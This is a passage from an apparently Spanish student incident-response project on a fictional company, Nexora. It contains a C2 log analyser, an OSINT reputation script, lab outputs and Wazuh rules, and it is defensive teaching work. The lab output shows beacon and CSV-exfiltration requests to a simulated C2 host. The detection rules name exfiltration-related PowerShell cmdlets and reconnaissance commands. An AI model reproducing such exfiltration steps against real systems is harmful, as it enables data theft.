analizar-conexiones.py  -  Analisis de conexiones sospechosas
--------------------------------------------------------------------
Proyecto: TP Gestion de incidente - Nexora S.L.  (Fer1399)
Apartado 3: Investigacion y analisis.

Lee el log del servidor C2 (`c2-server.py`, que registra tambien los
BYTES recibidos en cada POST) y:
  - Separa beacon (GET) de exfiltracion (POST).
  - Identifica el ORIGEN de cada peticion (la IP del cliente que se
    conecto al C2). Como el log es el del PROPIO servidor C2, el destino
    es implicito: todo lo que figura en el log son peticiones que RECIBIO
    el atacante; el parametro --atacante solo descarta la linea interna
    del propio servidor.
  - Suma los BYTES realmente recibidos en los POST: eso es lo que
    confirma la exfiltracion, no la mera existencia de la peticion.

USO:
    python3 analizar-conexiones.py c2.log --atacante 10.10.10.100
    python3 analizar-conexiones.py c2.log --atacante 10.10.10.100 --destino 10.10.10.100
"""
import sys
import re
from collections import Counter


def arg(nombre, defecto=None):
    return sys.argv[sys.argv.index(nombre) + 1] if nombre in sys.argv else defecto


def main():
    if len(sys.argv) < 2 or sys.argv[1].startswith("--"):
        print(__doc__)
        sys.exit(1)

    log = sys.argv[1]
    ip_atacante = arg("--atacante", "10.10.10.100")
    # IP del servidor C2 que registro el log (destino de las conexiones).
    # Por defecto es la del propio atacante.
    ip_destino = arg("--destino", ip_atacante)

    try:
        with open(log, encoding="utf-8", errors="ignore") as f:
            lineas = f.read().splitlines()
    except FileNotFoundError:
        print(f"[!] No existe el fichero de log: {log}")
        sys.exit(1)

    # Formato de c2-server.py / http.server:
    # 10.10.10.50 - - [15/Nov/2026 02:30:05] "POST /exfil.csv HTTP/1.1" 200 1234
    patron = re.compile(
        r'(\d+\.\d+\.\d+\.\d+).*?"(\w+)\s+(\S+)\s+HTTP/[\d.]+"\s+(\d+)\s+(\S+)'
    )

    beacons, exfil, origenes = [], [], Counter()
    bytes_exfiltrados = 0
    descartadas = 0

    for ln in lineas:
        m = patron.search(ln)
        if not m:
            continue
        ip, metodo, ruta, codigo, tam = m.groups()
        # Solo cuentan las conexiones de un host hacia el C2 (peticiones
        # entrantes registradas por el servidor del atacante).
        if ip == ip_destino:
            continue  # la propia linea informativa del C2, no es un cliente
        origenes[ip] += 1
        if metodo.upper() == "GET" and "beacon" in ruta.lower():
            beacons.append((ip, ruta, codigo))
        elif metodo.upper() == "POST":
            n = int(tam) if tam.isdigit() else 0
            exfil.append((ip, ruta, codigo, n))
            if codigo == "200":
                bytes_exfiltrados += n

    print(f"[*] Analizando {log}")
    print(f"    IP del atacante / C2: {ip_destino}\n")

    print("=== Origenes de las conexiones (clientes del C2) ===")
    for ip, n in origenes.most_common():
        marca = "  <-- VICTIMA" if ip != ip_destino else ""
        print(f"  {ip:16} {n} peticiones{marca}")

    print("\n=== Beacon / C2 (comunicacion periodica) ===")
    for ip, ruta, cod in beacons:
        print(f"  [BEACON] {ip} -> GET {ruta}  (HTTP {cod})")
    print(f"  Total beacons: {len(beacons)}  (patron periodico = C2, MITRE T1071)")

    print("\n=== Exfiltracion de datos (POST recibidos) ===")
    for ip, ruta, cod, n in exfil:
        estado = "RECIBIDO Y ALMACENADO" if cod == "200" else f"HTTP {cod}"
        print(f"  [EXFIL] {ip} -> POST {ruta}  {n} bytes  [{estado}]")
    print(f"  Total exfiltrado: {bytes_exfiltrados} bytes en {len(exfil)} POST")

    print("\n[+] Conclusion:")
    if bytes_exfiltrados > 0:
        print(f"    CONFIRMADO: el C2 ({ip_destino}) recibio y almaceno "
              f"{bytes_exfiltrados} bytes exfiltrados desde la victima.")
        print("    Tecnicas: C2 (T1071) y exfiltracion por el canal C2 (T1041).")
    elif exfil:
        print("    INDICADOR: hay peticiones POST, pero ninguna confirma datos "
              "almacenados (revisar codigos de respuesta).")
    else:
        print("    No se detectaron conexiones de exfiltracion en el log.")


if __name__ == "__main__":
    main()
```

### `osint-lookup.py`

*Reputación OSINT de IP, dominio o hash (VirusTotal + AbuseIPDB).*

```python
#!/usr/bin/env python3
"""
osint-lookup.py  -  Investigacion OSINT de IOCs (IP / dominio / hash)
--------------------------------------------------------------------
Proyecto: TP Gestion de incidente - Nexora S.L.  (Fer1399)
Apartado 3: Investigacion y analisis.

Consulta la reputacion de una IP, dominio o hash en VirusTotal y
AbuseIPDB. Util para investigar la "IP externa del atacante" y el
hash SHA-256 que Sysmon capturo del binario ejecutado.

USO:
    python3 osint-lookup.py 10.10.10.100
    python3 osint-lookup.py A220A85750588F5B231FF8CB106BA5409EAABB85E3DD7278A98FCA907E171ED2
    python3 osint-lookup.py dominio-malicioso.com

Claves API (gratuitas): ponlas como variables de entorno o aqui abajo.
    export VT_API_KEY="tu_clave_virustotal"
    export ABUSEIPDB_API_KEY="tu_clave_abuseipdb"
"""
import sys, os, re, json
import urllib.request, urllib.error

VT_API_KEY = os.getenv("VT_API_KEY", "PON_AQUI_TU_CLAVE_VIRUSTOTAL")
ABUSEIPDB_API_KEY = os.getenv("ABUSEIPDB_API_KEY", "PON_AQUI_TU_CLAVE_ABUSEIPDB")


def tipo_ioc(valor: str) -> str:
    if re.fullmatch(r"\d{1,3}(\.\d{1,3}){3}", valor):
        return "ip"
    if re.fullmatch(r"[A-Fa-f0-9]{32}", valor):
        return "hash"      # MD5
    if re.fullmatch(r"[A-Fa-f0-9]{40}", valor):
        return "hash"      # SHA1
    if re.fullmatch(r"[A-Fa-f0-9]{64}", valor):
        return "hash"      # SHA256
    return "dominio"


def http_get(url: str, headers: dict) -> dict:
    req = urllib.request.Request(url, headers=headers)
    try:
        with urllib.request.urlopen(req, timeout=15) as r:
            return json.loads(r.read().decode())
    except urllib.error.HTTPError as e:
        return {"error": f"HTTP {e.code}: {e.reason}"}
    except Exception as e:
        return {"error": str(e)}


def consulta_virustotal(ioc: str, tipo: str) -> None:
    print("\n=== VirusTotal ===")
    if "PON_AQUI" in VT_API_KEY:
        print("  [!] Falta la clave VT_API_KEY (gratuita en virustotal.com).")
        return
    ruta = {"ip": "ip_addresses", "dominio": "domains", "hash": "files"}[tipo]
    url = f"https://www.virustotal.com/api/v3/{ruta}/{ioc}"
    data = http_get(url, {"x-apikey": VT_API_KEY})
    if "error" in data:
        print("  [!]", data["error"]); return
    stats = data.get("data", {}).get("attributes", {}).get("last_analysis_stats", {})
    mal = stats.get("malicious", 0); sus = stats.get("suspicious", 0)
    total = sum(stats.values()) if stats else 0
    print(f"  Deteccciones maliciosas: {mal}/{total}  (sospechosas: {sus})")
    veredicto = "MALICIOSO" if mal > 0 else ("SOSPECHOSO" if sus > 0 else "limpio/desconocido")
    print(f"  Veredicto: {veredicto}")


def consulta_abuseipdb(ioc: str) -> None:
    print("\n=== AbuseIPDB ===")
    if "PON_AQUI" in ABUSEIPDB_API_KEY:
        print("  [!] Falta la clave ABUSEIPDB_API_KEY (gratuita en abuseipdb.com).")
        return
    url = f"https://api.abuseipdb.com/api/v2/check?ipAddress={ioc}&maxAgeInDays=90"
    data = http_get(url, {"Key": ABUSEIPDB_API_KEY, "Accept": "application/json"})
    if "error" in data:
        print("  [!]", data["error"]); return
    d = data.get("data", {})
    print(f"  Puntuacion de abuso: {d.get('abuseConfidenceScore', '?')}%")
    print(f"  Pais: {d.get('countryCode', '?')}  ISP: {d.get('isp', '?')}")
    print(f"  Denuncias totales: {d.get('totalReports', '?')}")


def main():
    if len(sys.argv) != 2:
        print(__doc__); sys.exit(1)
    ioc = sys.argv[1].strip()
    tipo = tipo_ioc(ioc)
    print(f"[*] IOC: {ioc}  ->  tipo detectado: {tipo}")
    consulta_virustotal(ioc, tipo)
    if tipo == "ip":
        consulta_abuseipdb(ioc)
    print("\n[+] Consulta OSINT finalizada.")


if __name__ == "__main__":
    main()
```

### Salidas reales de la ejecución (`salidas-scripts.txt`)

Se recogen a continuación las salidas reales obtenidas al ejecutar los scripts durante las pruebas:

```text
===========================================================================
 SALIDAS REALES DE LOS SCRIPTS PROPIOS — Incidente Nexora S.L.
 Autor: L.F. Arrosquipa  |  Laboratorio aislado 10.10.10.0/24
 Nota: las claves API se han sustituido por <REDACTADO>; se pasan por
 variables de entorno y NO se suben al repositorio.
===========================================================================


###########################################################################
# CÁLCULO DE HASHES / IOCs  (generar-iocs.py)
###########################################################################

$ python3 generar-iocs.py ~/gophish/

[+] 306 evidencias procesadas.
[+] Generados: iocs.csv  e  iocs.md

# --- Extracto representativo (lista completa en iocs.csv / iocs.md) ---
gophish             SHA256=d931718f3b1f0ee178457b668a2565b7c6faf68832437e5690f087cbb47b249b
config.json         SHA256=c3cdad7b48817696f7cdfb4f95f927e2063d058516c2d2153de30a4c031cfada
gophish.db          SHA256=1e4042887339f0faaf9fd5b6bfc4883eddbc6dd8668878a4eedb24ce2888e92d
gophish_admin.crt   SHA256=a8e1e78aec584f7ceb5a64c5bafa21e46189b68b138251c66e9336505ca3b236
# ... (302 ficheros más de la instalación de GoPhish sellados en iocs.csv/iocs.md)


###########################################################################
# EXFILTRACIÓN DEMOSTRADA: SERVIDOR C2 (c2-server.py) + ANÁLISIS
###########################################################################

# El servidor C2 no solo registra la petición: RECIBE y GUARDA el fichero,
# así la exfiltración queda probada por los bytes almacenados en el atacante.

$ python3 c2-server.py 8000          # en el atacante (Kali, 10.10.10.100)

10.10.10.50 - - [16/Nov/2026 17:00:34] "GET /beacon?id=1 HTTP/1.1" 200 -
10.10.10.50 - - [16/Nov/2026 17:00:34] "GET /beacon?id=2 HTTP/1.1" 200 -
10.10.10.50 - - [16/Nov/2026 17:00:34] "GET /beacon?id=3 HTTP/1.1" 200 -
10.10.10.50 - - [16/Nov/2026 17:00:34] "GET /beacon?id=4 HTTP/1.1" 200 -
10.10.10.50 - - [16/Nov/2026 17:00:37] "POST /exfil_clientes.csv HTTP/1.1" 200 148
    [+] 148 bytes guardados en recibidos/20261116_170037_exfil_clientes.csv

# Análisis del log, con validación de destino y recuento de bytes recibidos:
$ python3 analizar-conexiones.py c2.log --atacante 10.10.10.100

[*] Analizando c2.log
    IP del atacante / C2: 10.10.10.100

=== Origenes de las conexiones (clientes del C2) ===
  10.10.10.50      5 peticiones  <-- VICTIMA

=== Beacon / C2 (comunicacion periodica) ===
  [BEACON] 10.10.10.50 -> GET /beacon?id=1  (HTTP 200)
  [BEACON] 10.10.10.50 -> GET /beacon?id=2  (HTTP 200)
  [BEACON] 10.10.10.50 -> GET /beacon?id=3  (HTTP 200)
  [BEACON] 10.10.10.50 -> GET /beacon?id=4  (HTTP 200)
  Total beacons: 4  (patron periodico = C2, MITRE T1071)

=== Exfiltracion de datos (POST recibidos) ===
  [EXFIL] 10.10.10.50 -> POST /exfil_clientes.csv  148 bytes  [RECIBIDO Y ALMACENADO]
  Total exfiltrado: 148 bytes en 1 POST

[+] Conclusion:
    CONFIRMADO: el C2 (10.10.10.100) recibio y almaceno 148 bytes exfiltrados desde la victima.
    Tecnicas: C2 (T1071) y exfiltracion por el canal C2 (T1041).


###########################################################################
# CADENA DE CUSTODIA  (cadena-custodia.py)
###########################################################################

# Identifica por RUTA ABSOLUTA y SELLA el propio libro (detecta manipulación).

$ python3 cadena-custodia.py add clientes_CONFIDENCIAL.csv --quien "L.F. Arrosquipa" --desc "CSV de clientes (evidencia)"
$ python3 cadena-custodia.py add c2.log --quien "L.F. Arrosquipa" --desc "Log del servidor C2"
$ python3 cadena-custodia.py verify clientes_CONFIDENCIAL.csv
$ python3 cadena-custodia.py sello

[+] Evidencia registrada: clientes_CONFIDENCIAL.csv  (/home/kali/evidencias/clientes_CONFIDENCIAL.csv)
    SHA-256: 0885eaf506e986518a361fbf0424cc8df62b80aac3bedf0a628c70344aa87cd6
[+] Evidencia registrada: c2.log  (/home/kali/evidencias/c2.log)
    SHA-256: d2d1d6dbb0881787ca083498101ac1466cf373d9404a134bd3a45c1d53b4fb8b
[OK] clientes_CONFIDENCIAL.csv
    Registrado: 0885eaf506e986518a361fbf0424cc8df62b80aac3bedf0a628c70344aa87cd6
    Actual:     0885eaf506e986518a361fbf0424cc8df62b80aac3bedf0a628c70344aa87cd6
    => INTEGRIDAD INTACTA
[OK] Sello del libro de custodia
    => LIBRO INTEGRO


###########################################################################
# OSINT DE IOCs  (osint-lookup.py)  —  VirusTotal + AbuseIPDB
###########################################################################

$ export VT_API_KEY="<REDACTADO>"
$ export ABUSEIPDB_API_KEY="<REDACTADO>"

# --- Hash SHA-256 capturado por Sysmon (systeminfo.exe) -> VirusTotal ---
$ python3 osint-lookup.py A220A85750588F5B231FF8CB106BA5409EAABB85E3DD7278A98FCA907E171ED2

[*] IOC: A220A857...E171ED2  ->  tipo detectado: hash
== VirusTotal ==
  Detecciones maliciosas: 0/75  (sospechosas: 0)
  Veredicto: limpio/desconocido
[+] Consulta OSINT finalizada.

# --- IP pública de ejemplo (valida IP -> AbuseIPDB + VirusTotal) ---
$ python3 osint-lookup.py 8.8.8.8

[*] IOC: 8.8.8.8  ->  tipo detectado: ip
== AbuseIPDB ==
  Puntuacion de abuso: 0%
  Pais: US  ISP: Google LLC
  Denuncias totales: 190
[+] Consulta OSINT finalizada.
```

## Anexo C: configuración de Wazuh (reglas personalizadas)

# Configuración de Wazuh — reglas personalizadas (SRV-SIEM)

Referencia de la configuración del SIEM usada en el apartado 2. Wazuh se instala en modo todo-en-uno sobre la VM `SRV-SIEM` (`10.10.10.20`) y se le añaden reglas propias que convierten la actividad del atacante en alertas con su técnica MITRE asociada.

## 1. Instalación (todo en uno)

```bash
curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh
sudo bash ./wazuh-install.sh -a -i -o
```

Al terminar, el instalador muestra el usuario `admin` y su contraseña. El panel queda accesible en `https://10.10.10.20`.

## 2. Reglas personalizadas

Se editan en `/var/ossec/etc/rules/local_rules.xml` del gestor. Combinadas con la telemetría de Sysmon, disparan las alertas visibles en el panel durante la simulación del apartado 3:

```xml
<group name="nexora,lab,">

  <!-- 100200: comando de reconocimiento ejecutado -->
  <rule id="100200" level="10">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)(whoami|net user|net group|net share|systeminfo)</field>
    <description>NEXORA: Comando de reconocimiento ejecutado</description>
    <mitre><id>T1033</id><id>T1087</id></mitre>
  </rule>

  <!-- 100201: PowerShell de descarga / exfiltracion -->
  <rule id="100201" level="12">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)(Invoke-WebRequest|Compress-Archive|Invoke-RestMethod)</field>
    <description>NEXORA: PowerShell de descarga/exfiltracion</description>
    <mitre><id>T1059.001</id><id>T1041</id></mitre>
  </rule>

  <!-- 100202: conexion saliente a la IP del atacante (C2) -->
  <rule id="100202" level="12">
    <if_group>sysmon_event3</if_group>
    <field name="win.eventdata.destinationIp">10.10.10.100</field>
    <description>NEXORA: Conexion saliente a la IP del atacante (C2)</description>
    <mitre><id>T1071</id></mitre>
  </rule>

  <!-- 100203: movimiento lateral - credenciales robadas usadas contra el DC -->
  <!-- Requiere que DC-NEXORA tenga agente Wazuh enviando su canal Security.  -->
  <!-- Se encadena por decoder (windows_eventchannel), no por if_group, que es -->
  <!-- lo que casa con los eventos del canal Security de Windows en Wazuh 4.x.  -->
  <!-- Se restringe al origen 10.10.10.50 (la victima) para no confundirlo con -->
  <!-- otros inicios de sesion de red de la misma cuenta. El evento proviene    -->
  <!-- del canal Security del agente de DC-NEXORA.                              -->
  <rule id="100203" level="12">
    <decoded_as>windows_eventchannel</decoded_as>
    <field name="win.system.eventID">^4624$</field>
    <field name="win.eventdata.logonType">^3$</field>
    <field name="win.eventdata.targetUserName">rrhh.ana</field>
    <field name="win.eventdata.ipAddress">10.10.10.50</field>
    <description>NEXORA: Movimiento lateral - login de rrhh.ana (tipo 3) desde la victima (10.10.10.50) hacia el DC</description>
    <mitre><id>T1078</id><id>T1021.002</id></mitre>
  </rule>

</group>
```

## 3. Aplicar los cambios

```bash
sudo systemctl restart wazuh-manager
```

---

## Conclusiones

En este trabajo he recorrido el **ciclo completo de gestión de un incidente** sobre un laboratorio realista y con datos ficticios, uniendo la teoría del módulo con una ejecución práctica de principio a fin.

En **prevención** identifiqué los riesgos y creé materiales de concienciación propios; el simulacro me dio una métrica contundente, porque los dos empleados objetivo abrieron el correo y uno entregó sus credenciales, lo que demuestra por qué la formación es la primera barrera. En **detección** monté un SIEM (Wazuh) con Sysmon y reglas propias mapeadas a MITRE ATT&CK, y convertí la actividad del sistema en alertas accionables con detalle forense. En **investigación** reproduje el ataque por emulación —sin malware real— y lo analicé con scripts propios que cubren la integridad de las evidencias, la cadena de custodia, el análisis de las conexiones C2 y la reputación OSINT de los indicadores. En **respuesta** automaticé la contención respetando el orden de volatilidad y definí una erradicación fiable por restauración y revocación de credenciales. Y en **notificación** apliqué el marco legal (AEPD, 72 horas) e identifiqué los organismos de apoyo.

Mi principal **conclusión** es que el factor humano es a la vez el eslabón más débil y el más rentable de reforzar; que la detección temprana exige tener la telemetría y la correlación preparadas *antes* del incidente; y que la trazabilidad de la evidencia (hash y cadena de custodia) es lo que convierte una respuesta improvisada en una respuesta defendible. Como mejoras propongo MFA, mínimo privilegio, bloqueo de macros, segmentación de red y un afinado continuo de las reglas del SIEM.

## Fuentes consultadas

- **Wazuh** — Documentación oficial (instalación *all-in-one*, agentes, reglas locales y SCA): <https://documentation.wazuh.com>
- **MITRE ATT&CK** — Matriz de técnicas (T1566.002, T1059.001, T1071, T1041, T1033, T1087, T1056.003): <https://attack.mitre.org>
- **Sysmon (Sysinternals)** — Monitorización de endpoint: <https://learn.microsoft.com/sysinternals/downloads/sysmon>
- **Configuración de Sysmon (SwiftOnSecurity):** <https://github.com/SwiftOnSecurity/sysmon-config>
- **GoPhish** — Framework de phishing: <https://getgophish.com/documentation/>
- **MailHog** — Captura de correo SMTP de pruebas: <https://github.com/mailhog/MailHog>
- **AEPD** — Notificación de brechas de datos (art. 33-34 RGPD): <https://www.aepd.es>
- **INCIBE-CERT:** <https://www.incibe.es/incibe-cert>
- **CCN-CERT:** <https://www.ccn-cert.cni.es>
- **VirusTotal:** <https://www.virustotal.com> · **AbuseIPDB:** <https://www.abuseipdb.com>

> *Las URL se incluyen como referencia documental; se consultaron durante el desarrollo del trabajo en noviembre de 2026.*
